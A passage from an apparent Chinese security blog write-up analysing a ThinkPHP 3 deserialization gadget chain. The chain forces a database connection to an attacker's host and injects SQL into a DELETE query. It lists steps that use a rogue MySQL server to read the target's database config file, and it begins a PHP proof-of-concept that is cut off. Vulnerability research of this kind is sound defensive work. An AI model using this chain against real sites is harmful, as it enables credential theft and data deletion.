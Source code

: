 ![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210426220911.png)

这边的参数是完全可控的，所以这里的$table是可控的，将$table拼接到$sql传入了$this->execute()。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210426221142.png)

这里有个初始化数据库连接的地方

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210426221240.png)

可以通过控制成员属性，使程序调用到$this->connect()。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210426221320.png)

可以看到这里是去使用$this->config里的配置去创建了数据库连接，接着去执行前面拼接的DELETESQL语句。

到此，我们就找到了一条可以连接任意数据库的POP链。

1、通过某处leak出目标的WEB目录(e.g. DEBUG页面)
2、开启恶意MySQL恶意服务端设置读取的文件为目标的数据库配置文件
3、触发反序列化
4、触发链中PDO连接的部分
5、获取到目标的数据库配置
6、使用目标的数据库配置再次出发反序列化
7、触发链中DELETE语句的SQL注入

POC:

    <?php
    namespace Think\Db\Driver{
        use PDO;
        class Mysql{
            protected $options = array(
                PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启才能读取文件
            );
            protected $config = array(
                "debug"    => 1,
                "database" => "thinkphp3",
                "hostname" => "127.0.0.1",
                "hostport" => "3306",
                "charset"  => "utf8",
                "username" => "root",
                "password" => ""
            );
        }
    }

    namespace Think\Image\Driver{
        use Think\Session\Driver\Memcache;
        class Imagick{
            private $img;
    
            public function __construct(){
                $this->img = new Memcache();
            }
        }
    }

